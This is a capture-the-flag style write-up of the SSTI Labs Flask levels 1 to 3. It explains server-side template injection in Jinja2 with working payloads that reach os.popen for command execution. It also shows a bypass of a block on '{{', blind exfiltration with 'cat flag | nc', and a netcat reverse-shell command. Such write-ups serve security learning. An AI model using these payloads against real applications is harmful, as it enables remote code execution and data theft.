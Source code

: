 # SSTI Labs (by X3NNY) writeup
* You can find the link to the lab [here](https://github.com/X3NNY/sstilabs)

## Fingerprinting
* When we input `{{7*'7'}}`, Twig would output `49`, while Jinja2/Flask output `7777777`
* 


## Flask-Lab
### Level 1
* First, we can test for template injection by typing in `{{7 + 7}}`, which gives us `Hello 14`, which proves it is evaluating our input (and thus has SSTI)

* This is a basic problem. It doesn't seem like theres any input sanitization 
	* Here, our goal should be to find a function so we can look for the globals and run a command.

* **Note**: All these commands have to be included in the template structure `{{}}` because of how flask handles templating

* Interestingly, the python interpreter uses python itself internally, so we can access that in a bit of a roundabout way.
* The payload I used was: 

```python3
# look at files
{{ " ".__class__.__base__ .__subclasses__()[140].__init__.__globals__['sys'].modules['os'].popen('ls').read() }}

# cat files
{{ " ".__class__.__base__ .__subclasses__()[140].__init__.__globals__['sys'].modules['os'].popen('cat flag').read() }}
```
#### Breaking down the payload
1. Here, we are using an empty string and getting the `<class 'str'>` class
2. Next, we get the base (parent) of that class, which is the python object class: `<class 'object'>
3. `__subclasses__()` is a python function that gives us all child classes of a class, so this gives us a list of classes that inheret object
	1. Now, we have to find an index of this list that imports `sys`, which you can check for in the python source code.
	2. I used the `<class 'warnings.catch_warnings'>` class, which is typically around index `140` depending on your python version
4. `__init__` is like the constructor for any given class, and it a function we can be confident is in the class.
5. Once we have a function, `__globals__` gets us all the imported modules (and other globals) in the file from the function, which includes the sys module
6. `sys` includes the the the `os` module, so we can access the `.modules` dictionary to get the modules loaded, one of which is `os`
7. Now that we have access to the os module, we can run `popen('<command>').read()` and we have arbitrary code execution!

#### Alternative methods
* **Note**: This is a general method that works for most python SSTI
* However, we can do something specific on flask sites
* Because we know this is running flask, we know a function, [`url_for`](https://flask.palletsprojects.com/en/2.0.x/api/#flask.url_for), exists, which [imports os](https://github.com/pallets/flask/blob/main/src/flask/helpers.py)
	* Thus, we can do the same thing as before and run `url_for.__globals__.os.popen(<command>).read()`
* When we type in `{{ url_for.__globals__.os.popen('cat flag').read() }}`, we get the flag: `SSTILAB{enjoy_flask_ssti}`

## Level 2
* Immediately, it looks like even something as basic as `{{7 + 7}}` or `{{7}}` returns `Hello WAF`
	* Testing more, it looks like `{{` in particular is a blocked string

* We can bypass this, as flask has [more than one](https://flask.palletsprojects.com/en/2.0.x/tutorial/templates/) template type
	* For example, there is a `{%%}` template that is used for conditional checks
	* Unfortunately, this doesn't display anything, so our RCE is completely blind.

* To account for this, we're going to cat our output with the command `cat flag | nc 127.0.0.1 4444`
	* We can listen for a connection with `nc -lvnp 4444` locally

* Alternatively, we can also try to run a reverse shell using the command `nc -e /bin/sh 127.0.0.1 4444`
	* This serves a shell to localhost (our machine) on port 4444
	
* Here's the payload I used:
```python3
{% if url_for.__globals__.os.popen('cat flag | nc 127.0.0.1 4444').read() == 'blah' %}{% endif %}

```
#### Breaking down the payload
1. This checks to see if the condition `url_for.__globals__.os.popen('cat flag | nc 127.0.0.1 4444').read() == 'blah'` is true
	1. In this case, we know the output won't be 'blah', but the command still executes
2. Everything between `{% if %}` and `{% endif %}` is what would typically execute if the condition was true, but we don't have to worry about that here.

### Level 3
* Here, no matter what we input, we only see `wrong` or `correct` as an output
	* This is a classic blind SSTI problem
* Once again, we can use netcat to serve the file to us on our local machine
* It looks like there isn't any WAF on this level, so we can use roughly the same payload as last time:

```python3
{{ url_for.__globals__.os.popen('cat flag | nc 127.0.0.1 4444') }}
```

